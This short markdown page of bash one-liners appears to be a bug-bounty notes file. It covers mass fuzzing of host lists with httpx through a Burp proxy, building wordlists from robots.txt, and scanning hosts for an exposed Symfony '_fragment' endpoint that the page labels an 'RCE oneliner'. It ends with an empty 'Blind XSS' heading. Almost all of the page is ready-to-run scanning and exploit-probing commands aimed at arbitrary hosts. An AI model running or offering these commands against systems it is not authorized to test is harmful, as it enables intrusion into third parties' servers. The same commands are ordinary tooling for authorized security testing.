 **This oneliner was created by me for personal use**

### Oneliner to fuzz all hosts with wordlist using httpx and send every request to burpsuite for more investigations:- 

```bash
httpx -l hosts -paths dir.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -title -http-proxy http://127.0.0.1:8080
```

### Found bug with custom wordlist from robots.txt 

```bash
httpx -l urls.txt -paths /robots.txt -silent -o robots-url.txt
```

```bash
for url in $(cat robots-url.txt);do http -b $url | grep 'Disallow' | awk -F ' ' '{print $2}' | cut -c 2- | anew robot-words.txt;done
```

### RCE ONELINER WITH HTTPX

```bash
httpx -l hosts.txt -path /_fragment?_path=_controller=phpcredits&flag=-1 -threads 100 -random-agent -x GET  -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "PHP Credits"
```

```bash
cat pay-subdomains | sed 's/$/\/_fragment?_path=_controller=phpcredits&flag=-1/' | httpx -status-code
```

### Blind XSS Oneliner with dalfox 


